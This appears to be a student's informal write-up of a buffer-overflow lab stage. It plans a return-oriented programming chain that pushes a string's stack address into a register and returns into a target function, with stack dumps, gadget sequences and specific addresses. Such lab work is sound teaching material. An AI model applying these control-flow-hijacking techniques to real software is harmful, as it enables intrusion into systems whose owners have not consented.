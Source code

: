 This time, we must load the string into the stack,
and find a way to add its offset to rsp and store it in a register,
pass that register as an argument, and, optionally, pray.

Jk, we can do it.

Let's start with positioning at the link register.

```
%rsp:
....0000  00 00 00 00 00 00 00 00
....0008  00 00 00 00 00 00 00 00
....0010  00 00 00 00 00 00 00 00
....0018  00 00 00 00 00 00 00 00
....0020  00 00 00 00 00 00 00 00
....0028  00 00 00 00 00 00 00 00
```

The end sequence is predetermined, too (addresses are flexible).

```
...0200  35 39 62 39 39 37 66 61
...0208  00 00 00 00 00 00 00 00
```

At this point, the address of the string is %rsp + 0x200,
but each time we return, it will be lowered by 8, so let's
calculate our offsets carefully.

```asm
popq   %rax
mov    %rsp, %rax
mov    %ecx, %esi
mov    %eax, %edx
mov    %edx, %ecx
```

The process should be roughly as follows:
```asm 

mov   %rsp, %rax # get the stack pos
mov   %rsp, %rdi # arg1 is stack addr

popq  OFFSET
mov   %eax, %edx
mov   %edx, %ecx
mov   %ecx, %esi # put the offset as arg2

ret # ADDRESS of add_xy => %rax is addr of string

mov   %rax, %rdi

ret # ADDRESS of touch3
```


0x7f ff ff f9 83 9a -- addr
0x7f ff ff f9 7c a0 -- rdi
